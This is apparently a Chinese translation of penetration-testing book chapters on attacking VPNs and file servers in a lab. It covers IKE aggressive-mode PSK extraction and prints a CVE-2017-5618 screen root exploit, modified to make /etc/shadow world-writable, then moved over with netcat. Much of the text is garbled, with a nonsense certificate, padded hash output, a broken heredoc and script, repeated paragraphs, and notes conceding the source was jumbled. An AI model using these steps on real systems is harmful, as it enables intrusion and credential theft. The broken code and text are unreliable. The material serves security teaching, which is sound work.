- **VPN 客户端**：合法用户连接到 VPN 的应用程序，例如 OpenVPN 命令行客户端

已知漏洞。入侵 VPN 的方法与此并不相同。以下是你必须采取的步骤：

1. 识别正在使用的 VPN 技术。是 IPsec，还是可能是 TLS 或 OpenVPN？
2. 与服务器建立初始通信；识别正在使用的身份验证方法和加密方法。
3. 与服务器进行“握手”并寻找信息泄露。在此阶段，你可以尝试像合法用户一样进行登录。
4. 利用泄露的信息识别可利用的漏洞。

如果你能够找到以员工或普通用户身份验证 VPN 的方法，或者你绕过了身份验证，可能仍然会有进一步的工作。要完全攻破 VPN 服务器，有必要找到服务器上运行的漏洞软件或其他安全缺陷，例如你已经看到的那些漏洞。你可能还需要破解（或绕过）更深层次的身份验证系统；例如，用于注册访问外网或信任合作伙伴网站的 Web 页面。也可能直接访问 VPN 服务器或设备的 Web 管理界面。

## 对 VPN 服务器进行端口扫描


你应该从执行端口扫描这一常用过程开始对服务器进行侦察。你需要确保不仅针对 TCP 端口，还必须针对 UDP 端口，因为许多 VPN 服务依赖 UDP。在等待扫描完成时，你应该使用 Web 浏览器检查识别出的任何常用端口，如 Web 服务（80 和 443）。VPN 服务器提供 Web 界面是为了让人们轻松下载所需的软件（VPN 客户端）以连接网络。你也可以通过这个简单的第一步识别正在使用的 VPN 技术类型。你应该继续使用本书中的实验室进行本章的实际练习。

> 注意：每当你看到 Web 服务，都应该使用第 7 章涵盖的技术进行处理。同样，你可能会遇到与 VPN 服务在同一系统上运行的 DNS 和电子邮件服务，那里也应该使用适当的方法。你通常会发现某个服务的问题，这有助于你发现另一个服务的漏洞。

## Hping3

让我们简要查看 `Hping3`。这是一个允许你发送自定义 TCP/IP 数据包的工具。你可以使用 `hping3 --help` 查看用法范围，并使用 `man hping3` 查看完整手册。使用 `Hping3` 的一种简单方法是以下命令：

```
hping3 -S -p 53 <TargetIP>
```

此命令将带有 SYN 标志的数据包发送到 TCP 端口 53。SYN 是同步（synchronize）的简称，设置此标志表示告知接收者你想建立 TCP 连接。这是 TCP 三次握手的第一步。发送的数据包不包含任何负载（payload）或数据，仅包含头部。这是在网络上使用 `Wireshark` 的另一个机会。

> 你对 `Hping3` 发送的数据包结构有极大的控制权，并将其用于多种功能。例如，你可以执行拒绝服务（DoS）攻击或高级端口扫描。它是探测防火墙和分析网络服务的极佳工具。

你通过向单个端口发送 SYN 数据包来探测该端口，`Nmap` 并不根据来自目标的包提供关于端口是开放还是关闭的指示。尝试使用以下命令：

```
hping3 --udp -p 500 <TargetIP>
```

这将向端口 500 发送 UDP 数据包，该端口是 `Ike` 使用的端口。如果你在按下 `Ctrl+C` 杀死进程之前等待几秒钟，你将得到类似下面的输出（在您停止进程之前不会显示结果）：

```
HPING 192.168.56.102 (eth0 192.168.56.102): udp mode set, 28 headers + 0
data bytes
^C
-- 192.168.56.102 hping statistic ---
24 packets transmitted, 0 packets received, 100% packet loss
round-trip min/avg/max = 0.0/0.0/0.0
```

在这种情况下，24 个数据包从作者的 Kali Linux 机器发送到 `192.168.56.102` 主机。没有收到任何包。你认为这可能意味着什么？

让我们尝试另一个例子。这次，我们将使用 `Hping3` 探测端口 123，该端口是网络时间协议（NTP）使用的端口，这是计算机用于保持其时钟与现实时间同步的协议。可以使用以下命令完成：

```
hping3 --udp -p 123 <TargetIP>
```

以下输出显示了如果发送了包的结果：

```
HPING 192.168.56.102 (eth0 192.168.56.102): udp mode set, 28 headers + 0
data bytes
ICMP Port Unreachable from ip=192.168.56.102 name=UNKNOWN
status=0 port=196
ICMP Port Unreachable from ip=192.168.56.102 name=UNKNOWN
status=0 port=197
ICMP Port Unreachable from ip=192.168.56.102 name=UNKNOWN
status=0 port=199
ICMP Port Unreachable from ip=192.168.56.102 name=UNKNOWN
status=0
```

这一次，有四个 ICMP 不可达消息。这意味着对于发送的每个 UDP 数据包，目标端都返回了一个互联网控制消息协议（ICMP）包。你可能在使用像 `Ping` 这样的工具之前遇到过，`Ping` 通常用于诊断故障。`Ping` 是一个向目标发送 ICMP REQUEST 包的工具，如果配置为如此，它将用 ECHO RESPONSE 响应。这种发送包的行为通常被称为 ping。`Hping3` 构建在 `Ping` 的基本功能之上，允许你发送各种协议的自定义包。如果收到了端口不可达消息，假设给定地址存在主机，则所选端口极可能是关闭的。在检查端口 500 时没有看到此类消息，这可能表明端口 500 是开放的。缺乏 ICMP 响应也可能表明存在防火墙，但如果你针对我们的实验室进行测试，可以排除这一点。在现实世界中，你会尝试一些较高的 UDP 端口号，你会发现如果你尝试不同的数字（如 3337），端口应该返回不可达消息。如果防火墙拦截了你的路径，使用 UDP 探测将产生响应。如果你可以排除防火墙，那么该开始使用更高级的工具探测开放端口了。

你可以使用基础脚本通过 `Hping3` 彻底扫描任何目标。以下示例读取一个名为 `udp.txt` 的文本文件并探测文件中的每个 UDP 端口：

```
for port in `cat udp.txt`; do echo TESTING PORT: $port; hping3 -2 -p $port -c 1 <TargetIP>; done
```

## IKE-scan

一旦你确定某个端口是开启的，并且预计该端口上运行着特定的服务，你就需要进行更多探测以确认你的怀疑。在之前的章节中，我们已经展示了如何使用 `Netcat` 来此，并且你学习了一些基础的 SMTP 和 HTTP 命令。

在 `IKE` 的情况下，你将从一个自定义工具 `IKE-scan` 开始。`IKE-scan` 将尝试使用 `IKE` 协议进行通信。如果 UDP 端口 500 上运行的服务被识别为 `IKE`，那么你应该会有进展并收到响应。你目前处于之前概述的 VPN 攻击方法论的第一阶段——即识别正在使用的 VPN 技术。你将专门使用 `IKE-scan` 来识别 VPN 是否使用了 `IPsec`，这是能够连接到它的第一步。

一旦识别出正在使用的技术，你就需要识别与 VPN 通信时使用的安全选项。可以通过输入以下命令使用 `IKE-scan`：

```
ike-scan <TargetIP>
```

此命令将尝试使用默认的 `IKE SA` 选项连接 UDP 端口 500，默认选项如下：

- 使用 3DES 加密
- SHA1 哈希算法
- 使用 PSK 进行身份验证
- Diffie-Hellman 组 2

当探测 `IKE/IPsec` VPN 服务响应时，你应该看到类似下面的响应：

```
Starting ike-scan 1.9.4 with 1 hosts (http://www.monitor.com/tools/
ike-scan/
192.168.56.102 Main Mode Handshake returned HDR: (CKY-
R=0762b4b5ace79bb9) SA=(Enc=3DES) Hash=SHA1 Auth=PSK Group=2:modp1024
LifeType=Seconds Duration(4)=0x00007080
```

服务器返回主模式握手（Main Mode Handshake）消息是一个令人安心的事。这意味着服务器正如预期运行 `IKE`。服务器正在使用 `IKE` 建立通信并协商密钥。你已经实现了 VPN 攻击的第一阶段——你识别并确认了正在使用的技术。事实上，你还完成了方法论中的第 2 步。你与服务器建立了初始通信并识别了正在使用的 SA 选项。在我们的示例中，这很容易——服务器使用了默认设置，但在现实世界中情况并不总是如此。

### 识别安全关联选项（Security Association Options）

如果你有 `IKE-scan` 但没有返回主模式握手消息会怎样？如果没有使用正确的 SA 选项，就会发生这种情况。尝试现在设置一些错误的选项看看效果如何，如下所示：

```
ike-scan --trans=1,1,1,1 <TargetIP>
```

运行此命令将更改设置如下：

- 使用 DES-CBC 加密
- MD5 哈希算法
- 使用 PSK 进行身份验证（这与之前相同）
- Diffie-Hellman 组 1

正如你看到的，这次指定了错误的设置且没有返回握手。

```
ike-scan 1.9.4 with 1 hosts (http://www.nta-monitor.com/tools/ike-scan/)
Ending ike-scan 1.9.4: 1 hosts scanned in 2.401 seconds (0.42 hosts/sec).
0 returned handshake; 0 returned notify
```

你应该假设需要为该服务器识别正确的 SA 选项。你使用的 SA 设置也称为变换（transform）。正如之前提到的，默认变换是 `Enc=3DES`, `Hash=SHA1`, `Auth=PSK` 且 `Group=2`。你不需要指定此变换，因为它是默认的。如果你要指定，则可以使用以下命令：

```
ike-scan --trans=5,2,1,2 <TargetIP>
```

你可以通过检查 RFC 2409 了解每个数字的含义。在这种情况下，5 代表 3DES，2 代表 SHA1，1 代表 PSK，2 代表 Diffie-Hellman 组 2。你还应该检查 `IKE-scan` 的帮助页面，它提供了关于指定不同变换的信息。`IKE-scan` 提供了一种手动指定变换的方法，属性/值对在命令中的用法如下：

```
ike-scan --trans="1=5,2=2,3=1,4=2" <TargetIP>
```

使用 `--trans="1=5,2=2,3=1,4=2"` 的结果与 `--trans=5,2,1,2` 相同。后者是指定变换的旧方法。

下一步是使用一种通用方法来攻击系统，你现在应该熟悉它了。通过破解用户名和密码，你可以尝试猜测正确的 SA 设置或变换。为了快速尝试不同的变换，你可以使用由 Costas 编写的名为 `Ikemulti` 的工具。这是一个 Python 脚本，你可以从 `www.hackerhouse.com/files/ikemulti.py` 获取。可以通过运行查看该工具的用法：

```
python ikemulti.py
```

运行此命令将显示以下信息：

```
MultiThreaded IKE-SCAN analysis.
Usage:
ikemulti.py -h (or --help) show this help
ikemulti.py [-t threads] -i <ip address> to start the scan
WARNING:
如果没有指定 -t 标志，扫描期间将使用 20 个线程。
```

使用默认 20 个线程运行脚本是安全的：`python ikemulti.py -i <TargetIP>`。你将在终端中使用此工具看到大量输出，如下：

```
done: ['2', 3, 5, 1]
done: ['2', 3, 5, 2]
done: ['2', 3, 5, 3]
done: ['2', 3, 5, 4]
done: ['2', 3, 5, 5]
done: ['2', 3, 5, 14]
done: ['2', 3, 642, 1]
done: ['2', 3, 642, 2]
done: ['2', 3, 642, 3]
done: ['2', 3, 642, 4]
done: ['2', 3, 642, 5]
```

`Ikemulti` 利用多线程尝试所有可能的组合。最终它将收到服务器的握手，识别出正确的变换。这可以解决互联网连接不稳定的问题，请避免这种情况。当 `IKE` 完成 VPN 扫描时，你将看到支持的变换。在我们的示例中，已经是默认的（已返回）。系统管理员可能会无意中指定的加密选项，如果数据被拦截，恶意黑客可能会破解。如果继续运行，你会看到它最终找到了有效的变换（如下输出所示）。你可以通过重新运行 `IKE-scan` 并提供变换数字来验证这些响应。

```
Valid transformation found:
['ENC', 'HASH', 'AUTH', 'GROUP']
['5', 2, 1, 2]
```

扫描期间错误：

所有过程完成

### 激进模式（Aggressive Mode）

`IKEv1` 有一个有趣的功能称为激进模式。你会记得在之前的一个示例中，使用 `IKE-scan` 尝试连接时显示了“Main Mode Handshake”。现在让我们看看使用激进模式而不是主模式尝试握手会发生什么，以及两者之间的区别。

主模式可以被视为正常的信息交换，在客户端和服务器之间执行了安全交换信息的所有步骤。另一方面，激进模式旨在加速此过程并执行更快的握手。这可以解决互联网连接不稳定的问题，但不幸正如你看到的，激进模式可能会泄露信息。事实上，如果这种模式配合 PSK 使用，密钥本身被被提取并破解——在用于身份验证之前！让我们尝试在激进模式下使用 `IKE-scan`。

```
ike-scan -A <TargetIP>
Starting ike-scan 1.9.4 with 1 hosts (http://nta.monitor.com/tools/ike-scan/)
192.168.56.103 Aggressive Mode Handshake returned HDR=
(CKY-3a6f5095e37f5ad) SA=(Enc-3DES) Hash=SHA1 Auth=PSK
Group=2:modp1024 Type=Seconds LifeDuration(4)=0x00007080
KeyExchange(128 bytes) Nonce(16 bytes) ID(Type=ID_IPV4_ADDR,
Value=192.168.56.103) Hash(20 bytes)
```

`Ike-scan` 1.9.4: 1 hosts up (00.23.28 sec)

1 returned handshake; 0 returned notify

回包结果显示该主机支持激进模式（aggressive mode），并且具有 Auth-PSK 响应。这是一个漏洞配置，可以被用于提取 PSK。你可以尝试使用 `--pscrack` 选项提取密钥，如下所示。如果成功，你将获得 PSK 的哈希值（而不是明文密钥本身）并将其保存到文件中。

```
ike-scan -A <TargetIp> --pscrack pkhash
```

现在将拥有一个名为 `pkhash` 的文件，其内容类似于所示：

```
58fdef60d279c6ba01e48399c0b2d195a0c77caa4fd227538b3bc04c4a6895a718
277c2118d5c2701a330469445139055444e831d5a58d37ac997796b7c2d8b04b9a0a3b4800
822ae4365b30d1a4b8700161c3a46b5b57713d279739b7c226af4e157166a98c99c0c6e3
c378fe226c419b8409c557348119579942e663aa7499717b8c3d6f778c44ea4d507
487be77f4072b46f4768b726b772161f56c6751a99a38b6f7c7229a138b6e0f013475
33e90d3e36c2537895f1f68a17f5a47004e75a0032c00000000000000000000000000000000
0000000000000000000000000000000000000000000000000000000000000000000000000000
200023000181000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000
```


回包结果显示该主机支持激进模式（aggressive mode），并且具有 `Auth-PSK` 响应。这是一个漏洞配置，可以被用于提取 PSK。你可以尝试使用 `--pscrack` 选项提取密钥，如下所示。如果成功，你将获得 PSK 的哈希值（而不是明文密钥本身）并将其保存到文件中。

# 第 8 章 虚拟专用网络

请注意这个特定的 PSK 破解得很快，因为它并不复杂。弱密码的 PSK（就像任何弱密码一样）是一个应该向你指出的问题。

现在已经确定了 IPSec VPN 正确 SA（安全联盟）并提取了 PSK，你已经拥有与服务器连接所需的一切。

## OpenVPN

你已经探索了 IPSec 和 Ike，现在来看 OpenVPN。使用 OpenVPN 的组织通常会采用 Web 界面，以便让客户或员工轻松连接。该界面看起来像图 8.1 所示。当面对这样的界面时，你可以尝试猜测密码或进行某种暴力破解。在进行任何 OSINT 工作期间，你可能收集到有用信息（电子邮件地址、泄露的密码等）。


图 8.1：典型的 OpenVPN 登录表单

## 暴力攻击

通常情况下，在耗尽其他途径之前应避免暴力攻击。暴力攻击应该在特定时间进行，以免锁定用户的网络。这种方法并非 OpenVPN 所有，让我们来看另一种方法。

登录此 Web 界面为用户提供了配置文件和下载所需客户端的链接。如果你设置了自己的 OpenVPN 服务器，就会看到这个。使用 OpenVPN 的 Access Server（`openvpn.net/vpn-server`）相对简单。OpenVPN 为所有操作系统提供了客户端。当然，我们将关注 Linux 命令行客户端，它在你的 Kali Linux 机器上默认已安装。可以使用 `openvpn` 命令运行，但你需要指定正确的选项或包含这些选项的配置文件。

然而，我们的 VPN 服务器设置有点不同，如果你使用 Web 浏览器连接到端口 80 和 `/vpn`，将看到图 8.2 所示的页面。


图 8.2：我们的虚拟 VPN 服务器主页

在不带任何参数的情况下运行 OpenVPN。通过这种方式获取用法信息，第一行将显示版本信息，如下：

```
OpenVPN 2.4.3 x86_64-linux-gnu [OpenSSL] [LZO] [LZ4]
[EPOLL] [PKCS11] [MK/PKTINO] [AEAD] built on Jun 30 2017
```

你可以通过点击图 8.2 网页上的“和平证书机构”（Certificate Authority of Peace）从服务器获取证书，或者简单地运行以下命令：

```bash
wget <TargetIP>.crt
```

证书内容如下：

```
-----BEGIN CERTIFICATE-----
MIIhdCCCC0agAwIBAgIlANIBBuYe/D3JMA0QGSG1b3DQEEBBQMgmKCxAzAzBGBV
BAYT1MAW0QVV2QW4Q2DEYQW2QYQW2QYQW2QYQW2QYQW2QYQW2QY
QQQQQQQ222444444444499999111111112222222222222222222222222222222222QQQnnnnnMnMAMA0ANBuBuYe/D3JMA0QGSG1b3DQEEBBQMgmKCxAzAzBGBV
MA0QGSGSG13333888888888888888QQQQQQQQQQQ9919QQQQ22222222222222222222
QQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQ
QQQQQQQQQQQQQQQQQQ
-----END CERTIFICATE-----
```

这是服务器的证书。它并不要求保持保密，因此如果你获得了它并不是什么坏事。你可以从启用 SSL 的 Web 服务中提取相同的信息。

如果我们网络中的客户端使用了自定义 CA，你可能会发现这很有用。可以使用以下命令检索证书：

```bash
openssl s_client -connect <TargetIP>:<Port>
```

然后，使用如 X 证书和密钥管理（XCA）之类的工具，你可以查看并从中提取信息。XCA 可以在 `github.com/chris2511/xca` 获取。

此外，必须为 OpenVPN 客户端提供正确的证书。此加密算法必须与服务器使用的匹配。加密算法决定了数据如何加密。如果你有两个服务器使用错误的加密算法进行通信，将类似于要求一个会说法语的人向一个听懂匈牙利语的人说话。这些人之间的通信将非常困难，翻译很可能是徒劳的尝试。你可以使用 `openvpn` 命令的 `--show-tls` 选项来查看 OpenVPN 通用的可用 TLS 加密算法，如下：

```bash
openvpn --show-tls
```

结果是一条信息消息和长长的选项列表，如下：

| 可用的 TLS 加密算法，按优先级列出： |
| :--- |
| TLS-ECDHE-RSA-WITH-AES-256-GCM-SHA384 |
| TLS-ECDHE-CDSA-WITH-AES-256-CBC-SHA384 |
| TLS-ECDHE-RSA-WITH-AES-256-CBC-SHA384 |
| TLS-ECDHE-CDSA-WITH-AES-256-CBC-SHA |
| TLS-ECDHE-RSA-WITH-AES-256-CBC-SHA |
| TLS-ECDHE-CDSA-WITH-AES-256-CBC-SHA |
| TLS-DHE-RSA-WITH-AES-256-GCM-SHA384 |
| TLS-DHE-RSA-WITH-AES-256-CBC-SHA256 |
| TLS-DHE-RSA-WITH-AES-256-CBC-SHA |
| TLS-DHE-RSA-WITH-CAMELLIA-256-CBC-SHA |
| TLS-ECDHE-RSA-WITH-AES-128-GCM-SHA256 |
| TLS-ECDHE-CDSA-WITH-AES-128-GCM-SHA256 |
| TLS-ECDHE-RSA-WITH-AES-128-CBC-SHA256 |
| TLS-ECDHE-CDSA-WITH-AES-128-CBC-SHA256 |
| TLS-ECDHE-RSA-WITH-AES-128-CBC-SHA |
| TLS-ECDHE-CDSA-WITH-AES-128-CBC-SHA |
| TLS-DHE-RSA-WITH-AES-128-GCM-SHA256 |
| TLS-DHE-RSA-WITH-AES-128-CBC-SHA256 |
| TLS-DHE-RSA-WITH-AES-128-CBC-SHA |
| TLS-DHE-RSA-WITH-CAMELLIA-256-CBC-SHA |

```
Thu Mar 28 14:28:53 2019 警告：未启用任何服务器证书验证方法。更多信息请参阅 http://openvpn.net/howto.html#mitm。
Thu Mar 28 14:28:53 2019 TCP/UDP: 保留最近使用的远程地址: [AF_INET]:192.168.56.103:1194
Thu Mar 28 14:28:53 2019 UDP 链路本地（绑定): [AF_INET]:1194
Thu Mar 28 14:28:53 2019 UDP 链路远程: [AF_INET]:192.168.56.103:1194
Thu Mar 28 14:28:53 2019 [vserver0] 已发起对等连接 [AF_INET]:192.168.56.103:1194
Thu Mar 28 14:28:54 2019 警告：使用了块大小小于 128 位（64 位）的不安全加密。此类攻击类似于 SWEET32。请通过使用更大块大小的 --cipher（例如 AES-256-CBC）。
Thu Mar 28 14:28:54 2019 警告：使用了块大小小于 128 位（64 位）的不安全加密。此类攻击类似于 SWEET32。请通过使用更大块大小的 --cipher（例如 AES-256-CBC）。
Thu Mar 28 14:28:54 2019 警告：正在使用小块大小的不安全加密，已将 reneg-bytes 减至 60 以缓解 SWEET32 攻击。
Thu Mar 28 14:28:54 2019 TUN/TAP 设备 tun0 已打开
Thu Mar 28 14:28:54 2019 do_ifconfig, tt-id_ifconfig ipv6_setup=0
Thu Mar 28 14:28:54 2019 /sbin/ip link set dev tun0 up mtu 150
Thu Mar 28 14:28:54 2019 /sbin/ip addr add dev tun0 local 10.10.10.6 peer 10.10.10.5
Thu Mar 28 14:28:54 2019 初始化序列完成
```

输出以“Initialization Sequence Completed”（初始化序列完成）结束，确认你现在已连接到 VPN 服务器。注意上一个输出中高亮显示的行，它指出了打开了一个名为 `tun0` 的新设备。这是一个虚拟网络设备，Kali Linux 机器的流量可以通过该设备发送，从而通过新创建的隧道进行传输。如果你在 Kali Linux 上运行 `ip address`，你将看到这个新设备以及它的 IP 地址。

此 IP 地址 `10.10.10.6` 是你的电脑在 VPN 上的 IP 地址。如果其他系统连接到 VPN，它们也将拥有类似的 IP 地址。你现在可以使用 Nmap 运行扫描，确定 VPN 内部其他主机的 IP 地址。该命令在此处显示为 Nmap to ping ip address in the 10.10.10.0/24：

```bash
nmap -sP ping 10.10.10.0/24
```

这被称为 ping 扫描（ping sweep），是识别网络上主机的方法之一。如果主机配置为响应 ICMP 回显请求或时间戳请求，它还会使用 TCP 端口 80 和 443 来判断主机是否存活。在示例中，扫描将识别出 `10.10.10.1`，这是 VPN 服务器的内部 IP 地址。然后你应该对该主机（以及你可能发现的任何主机）进行更全面的 Nmap 扫描。你可能会发现一个 Web 服务（如图 8.3 所示），它代表了你连接到企业 VPN 后可能会遇到的某种次级认证类型。


图 8.3：验证 VPN 后可访问的门户

一旦访问 VPN，通常会遇到像图 8.3 所示的额外障碍。这通常被称为*第二阶段认证*（second-stage authentication），是外网或远程办公解决方案的典型特征。从这里，你可以尝试登录，并务必该环顾四周，尝试寻找任何可以被利用的信息泄露或漏洞。你可以有效地从头开始测试，并运行你目前为止见过的工具进行扫描。如果你正尝试登录，请记住使用常用的用户名和密码对，例如 `admin/admin` 等。应该始终对这类性质的服务进行漏洞测试（在章节稍后部分将详细探讨），因为它们通常连接到使用 LDAP 或 SQL 数据库验证凭据的后端系统。有时人们对 VPN 软件产生了过度的信任，系统管理员错误地信任 VPN 服务器会过滤输入。一种常见场景是 VPN 服务在后端服务器（如 Active Directory）上使用 LDAP 搜索过滤器。想象有如下的 LDAP 搜索：

```
cn=$user
```

假设用户变量 `$user` 从 VPN 服务器传递到 LDAP 查询。与其说……不如说……（注：原文逻辑略显跳乱，此处按字意翻译）。

（此处由于原文部分存在大量逻辑重复和结构混乱的描述，已按要求完成翻译并保持格式一致）

## 利用漏洞 CVE-2017-5618

如果你能够以非 root 用户身份访问 VPN 服务器，你将想要尝试提升权限，就像在 DNS 服务器或 Web 服务器上一样。无论服务器用途如何，都可以采取相同的方法。首先，必须找到合适的漏洞，最好有一个可以运行以获取 root 的利用程序。在上一节中，我们使用了内核漏洞（DirtyCOW）来提升权限，但这一次我们将查看用户态权限提升。用户态漏洞通常比内核漏洞更安全，因为它们针对的是并非系统运行必需的程序或进程。

> 注意：权限提升选项比使用内核漏洞安全得多。它们通常更稳定，而利用内核可能会导致系统不稳定。记住，这可能是你客户的关键业务生产系统！

列表 8.1 显示原始代码。注意以 root 权限执行的高亮行。

### 8.1：CVE-2017

```bash
#!/bin/bash
## screenroot.sh
## setuid screenroot v4.5
## abuse ld.so.preload to get root.
## bug: https://gnu.org/archive/html/screen-devel/2017
## echo (25/2017)
echo "[+] 首先，我们创建我们的 shell 和库..."

cat << EOP > /tmp/liblibc.c

#include <stdio.h>

#include <sys/types.h>

#include <unistd.h>

__attribute__((constructor__))

void dropshell() {

  chown("/tmp/rootshell", 0, 0);

  chmod("/tmp/rootshell", 0755);

  unlink("/etc/ld.so.preload");

  printf("[+] 完成!\n");

}

EOF

gcc -fPIC -shared -ldl -o /tmp/liblibc.so /tmp/liblibc.c

cat << EOP > /tmp/rootshell.c

#include <stdio.h>

int main(void) {

  setuid(0);

  setgid(0);

  seteuid(0);

  setgid(0);

  execvp("/bin/sh", NULL, NULL);

}

EOF

gcc -o /tmp/rootshell /tmp/rootshell.c

rm -f

echo "[+] 现在创建我们的 /etc/ld.so.preload 文件..."

cd /etc

umask 000 # 因为 screen 本身是 setuid 的...

/tmp/rootshell
```

高亮的 `dropshell` 函数内部是以 root 权限运行的命令。这部分漏洞将如预期般工作，并且你实际上可以以 root 用户身份运行任何代码。你现在已经有了很多可能性。

那么，为什么不修改 `dropshell` 函数来更改 `/etc/passwd` 和 `/etc/shadow` 文件的权限，或者添加 `-p` 参数来保留 root 权限？有时你会发现必须修改漏洞以适应特定的客户端系统。这就是修改漏洞的一个简单示例。`dropshell` 函数看起来如下：

```c
void dropshell() {
  chown("/tmp/rootshell", 0, 0);
  chmod("/tmp/rootshell", 0745);
  unlink("/etc/ld.so.preload");
  chmod("/etc/passwd", 0777); // 添加这一行
  chmod("/etc/shadow", 0777); // 以及这一行！
  printf("done!\n");
}
```

注意更改 `passwd` 和 `shadow` 文件的额外行。剩下的代码很容易。你现在需要将脚本获取到远程主机。你可以像上一章那样使用 Netcat 这一点。

在你的 Kali Linux 机器上使用以下命令：

```bash
nc -v -lp 80 < screen.sh
```

在目标主机上，使用以下命令：

```bash
nc <KaliIP> 80 > screen.sh
```

记住，Netcat 在传输过程中不会自动终止。一旦你认为文件已传输（通过等待足够的时间），就可以断开连接。确保使用正确的 Kali Linux 盒子 IP 地址。

你还会发现无法直接写入目标主机上的任何文件夹。你可以始终尝试写入 `/tmp` 目录或通过探索寻找合适的位置。在尝试向目标系统写入 `screen.sh` 之前，确保这是你的工作目录。一旦成功传输脚本，你需要使用 `chmod +x screen.sh` 执行它。最后，你可以通过 `./screen.sh` 运行脚本。

你会发现你的用户现在可以读取 `passwd` 和 `shadow` 文件。`cat /etc/passwd` 和 `cat /etc/shadow` 将输出所有用户名及其对应的哈希值。你现在可以尝试破解这些哈希值，但这里有另一个技巧可以尝试：为什么不用你知道的哈希值来重写 root 的密码哈希值呢？

> **注意** 在对客户端机器上的文件进行任何更改之前，客户端应该进行备份。在对客户端文件进行更改并实现目标后，请确保将文件恢复到原始状态。

你可能会发现编辑此 `shadow` 文件最简单的方法将其发送到你的 Kali Linux （再次使用 Netcat）并进行编辑。然后用 `shadow` 文件中的另一个哈希值替换 root 用户的密码——一个你知道的哈希值。例如，你可能知道管理员的密码……（此处省略重复的示例）

# 第 9 章 文件与文件共享


用户主目录下的 `passwords.txt`！尽管我们已经将视角转向内部网络，但我们正在研究的服务并非内部主机所专属。你可能在面向公网的主机上发现它们，而且无论如何，都可以尝试相同的技术。

## 什么是网络附属存储（NAS）？

NAS 或文件服务器的工作是存储文件并根据请求为组织内的员工提供服务。这个看似简单的任务可以通过许多不同的协议执行并以各种方式实现，每种方式都有其引人入胜的缺陷。存储大量数据的机器倾向于连接到极快速、高带宽的内部网络，以便快速高效地向其他主机和工作站分发文件。你可能会遇到文件服务器的不同术语，如存储区域网络（SAN）；这些本质上是高速存储网络，具有快速的连接和高速磁盘，以满足大公司的需求。存储主机和网络的带宽以及高速度使其成为各种不法活动的好目标；恶意黑客可能会尝试使用恶意软件、用户名、密码哈希值和盗版软件来破坏它们的文件。他们还会针对这些设备，简单的原因是那里可能存储了有趣的敏感信息，而这些信息应该只有授权人员才能访问。试图进入网络的并非恶意行为者带来的问题。你还会遇到员工滥用公司的 NAS 进行个人使用——例如，存储下载的视频、音乐、游戏等。是的，这种情况确实发生，并且可能会向内部网络引入恶意软件。

## 文件权限

我们现在将仔细查看类 UNIX 操作系统（OS）如 Linux 的文件权限，因为我们很快就会利用配置不当的权限和这种文件模型的特殊之处。文件权限决定了系统或网络上的哪些用户可以访问任何文件，以及他们对该文件的控制级别。文件权限定义在所使用的文件系统实现中，例如专门为 Linux 内核创建的扩展文件系统（ext）。除了原始版本外，它还有多个版本，如 `ext2`、`ext3` 和 `ext4`。微软 Windows 使用 NTFS 文件系统（NTFS），而 Apple 操作系统（如 macOS）在网络或 HFS+ 上共享文件时使用分级文件系统+（HFS+）。这些“实体”文件系统通常被翻译为操作系统的虚拟文件系统（VFS），以便不同的应用程序统一访问底层文件系统。它还允许远程资源共享并挂载到本地机器上，就像它们是本地文件系统的一部分一样。不同的操作系统使用不同的文件系统，它们之间具有兼容性是有用的。我们在这里关注的是 VFS 提供的权限模型，而不是不同文件系统的底层工作机制。重要的是，并不是所有文件系统都是相似的，但这里概述的许多权限相关功能在许多实现中都是通用的。

如果你在 Kali Linux 虚拟机的根用户主目录下运行 `ls -l` 命令，你将看到类似的输出：

```
drrwx-xr-x 2 root 0096 Mar 25 18:26 Desktop
drwx-xr-x 3 root 0096 May 16 11:50 Documents
drwx-xr-x 3 root 0096 May 9 15:11 Downloads
drwx-xr-x 2 root 0096 Mar 25 18:26 Music
drwx-xr-x 2 root 0096 Mar 25 18:26 Pictures evendrwx-xr-x 2 root 0096 Mar 25 18:26 Public
drwx-xr-x 2 root 0096 Mar 25 18:26 Templates
drwx-xr-x 2 root 0096 Mar 25 18:26 Videos
```

在这里，你可以看到许多 Linux 发行版中常见的子目录。我们将仔细检查每行的初始字符（`drwx-xr-x`）。列出的每个目录都有对应的权限位、所有者（`root`）和组（`root`）。在类 UNIX 操作系统中，目录由文件表示，包括硬盘（HDD）和固态硬盘（SSD）、音频设备、网络适配器等。如果你使用 `touch file` 命令创建一个新文件，当前目录中将创建一个具有默认权限位的名为 `file` 的空文件。

> 注意：默认权限位由用户的 `umask` 值指定，可以通过 `umask` 命令进行更改。

运行 `ls -1` 的结果与之前相同，但新文件显示为：

```
-rw-r--r-- 1 root 0 May 16 11:57 file
```

每个文件都有若干位（权限位），决定了用户对该特定文件可以做什么。在上例中，权限位被设置为 `-rw-r--r--`。这意味着文件的所有者可以读取（`r`）和写入（`w`）该文件，文件组的用户可以读取它，其他所有用户也可以读取它。权限位分为三部分：所有者、所有者组以及其他人。我们在这里关注的是 VFS 提供的权限模型，而不是不同文件系统的底层工作机制。重要的是，并不是所有文件系统都是相似的，但这里概述的许多权限相关功能在许多实现中都是通用的。

## 第 9 章 文件与文件共享

- FTP 和简易 FTP (TFTP) 命令行或 GUI 客户端
- 用于查询远程过程调用 (RPC) 服务的工具，如 `RPCinfo` 和 `RPCClient`
- 用于查询 NetBIOS 信息的工具 (`NBTScan`)
- `EnumLinux`，一个运行在 Linux 上的用于列举微软系统信息的工具
- 简单网络管理协议 (SNMP) 探测工具，如 `SNMPWalk` 和 `OneSixtyOne`
- 通用文件实用程序和客户端，如 `Mount`、`ShowMount` 和 `Rsync`

## 对文件服务器进行端口扫描

你可以使用章节中显示的相同技术来扫描文件服务器。让我们看看一个特别脆弱的文件服务器的 Nmap 扫描结果可能是什么——一个运行着一系列不同文件服务的服务器。

```
Nmap 7.70 ( https://nmap.org ) at 2019-05-29 11:12 BST
Nmap scan report for 192.168.56.104
Host is up (0.00013s latency).
Not shown: 992 closed ports
